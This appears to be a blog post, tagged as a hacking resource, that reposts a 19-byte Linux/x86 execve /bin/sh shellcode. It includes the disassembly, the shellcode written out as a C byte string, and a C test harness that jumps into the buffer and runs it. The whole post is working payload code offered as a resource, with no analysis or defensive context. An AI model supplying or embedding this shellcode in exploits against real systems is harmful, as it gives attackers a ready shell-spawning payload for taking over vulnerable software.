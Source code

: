 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-26
title: Exploits
tags: Resource, Hack
category: Hack
status: publish
-->

## Linux/x86 - execve /bin/sh Shellcode (19 bytes) ##
    /*
    # Linux/x86 - execve /bin/sh shellcode (19 bytes)
	# Author: sajith
	# Tested on: i686 GNU/Linux
	# Shellcode Length: 19
	# SLAE - 750
 
	Disassembly of section .text:
 
	08048060 <_start>:
	8048060: 31 c0 xor eax,eax
	8048062: 50 push eax
	8048063: 68 2f 2f 73 68 push 0x68732f2f
	8048068: 68 2f 62 69 6e push 0x6e69622f
	804806d: 87 e3 xchg ebx,esp
	804806f: b0 0b mov al,0xb
	8048071: cd 80 int 0x80
	===============poc by sajith shetty=========================
	*/
 
	#include<stdio.h>
	#include<string.h>
 
	unsigned char code[] = \
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80";
 
	main()
	{
 
	printf("Shellcode Length: %d\n", strlen(code));
 
	int (*ret)() = (int(*)())code;
 
	ret();
 
	}

